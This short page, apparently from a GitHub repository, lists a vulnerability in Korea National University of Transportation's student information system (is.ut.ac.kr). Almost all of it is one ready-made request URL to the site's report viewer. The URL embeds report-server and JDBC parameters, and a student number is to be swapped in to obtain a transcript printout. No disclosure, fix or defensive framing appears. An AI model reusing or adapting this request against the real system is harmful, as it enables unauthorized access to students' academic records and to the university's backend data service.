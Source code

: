 ## 한국교통대학교 종합정보시스템 (is.ut.ac.kr) Vulnerabilities

### 성적표 출력
* Request in Internet Explorer to install cxViewer plugin
* Query string: Change \<STUDENT-NUMBER\> to your student number
    * `https://is.ut.ac.kr/cxViewer/RdView.jsp?view_mode=rdopen_non_output();&param=%2Frp%20%20%5B2020%2D08%2D14%5D%20%5B<STUDENT-NUMBER>%5D%20%5B91215035%5D%20%5B<STUDENT-NUMBER>%5D%20%5B%5D%20%5B<STUDENT-NUMBER>%5D%20%5B00%5D%20%5B%25%5D%20%5B%25%5D%20%2Frl%20%5B%5D%20%2Frfn%20%5Bhttps%3A%2F%2Fis%2Eut%2Eac%2Ekr%2FDataServer%2Frdagent%2Ejsp%5D%20%2Frsn%20%5Bjdbc%2Fusop%5D&mrd=%2FGA%2FSC%2FSC02%2FMRD%2Fcsga%5F04063%2Emrd`
